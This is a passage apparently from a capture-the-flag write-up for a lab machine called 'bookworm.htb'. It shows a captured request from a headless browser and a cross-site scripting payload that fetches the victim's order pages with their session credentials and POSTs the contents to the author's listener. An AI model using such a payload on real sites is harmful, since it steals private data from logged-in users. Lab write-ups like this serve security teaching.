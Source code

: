     Connection received on 10.10.11.215 44730
    GET /order/18 HTTP/1.1
    Host: 10.10.14.6
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
    Accept: */*
    Origin: http://bookworm.htb
    Referer: http://bookworm.htb/
    Accept-Encoding: gzip, deflate
    

I’ll update this to return the order pages:

    
    
    fetch('/profile', {credentials: "include"})
    .then((resp) => resp.text())
    .then((resptext) => {
      var regex = /\/order\/\d+/g;
      while ((match = regex.exec(resptext)) !== null) {
        fetch(match, {credentials: "include"})
        .then((resp2) => resp2.text())
        .then((resptext2) => {
          fetch("http://10.10.14.6/exfil" + match, {
            method: "POST",
            mode: "no-cors",
            body: resptext2
          });
        });
      };
    });
    

This should get each order page in the profile, fetch it, and return it to me
via POST request.

After a few minutes (and a few attempts running the script), I get a
connection, which gives a few pages. For example, one might look like the
following page:

![image-20240116134135135](../img/image-20240116134135135.png)
